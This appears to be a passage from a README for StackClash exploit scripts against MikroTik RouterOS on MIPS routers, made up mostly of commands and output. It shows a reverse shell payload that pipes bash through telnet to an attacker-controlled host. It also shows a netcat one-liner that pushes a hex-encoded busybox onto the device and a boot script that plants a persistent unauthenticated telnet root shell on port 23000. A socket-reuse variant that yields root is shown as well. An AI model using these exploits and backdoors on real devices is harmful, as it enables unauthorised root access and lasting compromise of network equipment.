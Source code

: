 ### Persistent telnet server  
You can run script at each boot by creating a bash script in `/flash/etc/rc.d/run.d/`.  
Pay attention to set execution permissions, or your router will stuck on boot and you will have to restore the firmware!  
This example enables a persistent telnet server on port 23000.  
In a shell:
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips 
$ { echo "echo Installing..."; hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /flash/bin/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g"; echo "chmod 777 /flash/bin/busybox"; echo "/flash/bin/busybox --install -s /flash/bin/"; echo "mkdir -p /flash/etc/rc.d/run.d"; echo 'echo -e "#!/flash/bin/sh\ntelnetd -p 23000 -l sh" > /flash/etc/rc.d/run.d/S89own'; echo "chmod 777 /flash/etc/rc.d/run.d/S89own"; echo "/nova/bin/info '/system reboot'"; echo "echo Done! Rebooting..."; } | nc -l -p 1234
```
In another shell (note that this is the reverse shell command):  
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f"
```
and wait until `Done! Rebooting...` appears.  
Once the router is up again:
```
$ telnet 192.168.8.1 23000
Trying 192.168.8.1...
Connected to 192.168.8.1.
Escape character is '^]'.


MikroTik v6.38.4 (stable)
/ #
```  

## StackClash_resock_mips  
Reuse the http socket to spawn a shell, so you can have a shell without a reverse connection.  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_resock_mips.py 192.168.8.1 80 www_binary
[...]
sh: turning off NDELAY mode

Got root ;-)

```  
### Upload binaries without a reverse shell
To upload `busybox-mips` in `/ram/busybox`  
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips  
$ ./StackClash_resock_mips.py 192.168.8.1 80 www_binary busybox-mips /ram/busybox   
[...]   
Uploading busybox-mips in /ram/busybox...   
Upload done!
sh: turning off NDELAY mode

Got root ;-)

chmod 777 /ram/busybox
/ram/busybox
BusyBox v1.28.1 (2018-02-15 14:34:02 CET) multi-call binary.
[...]
```
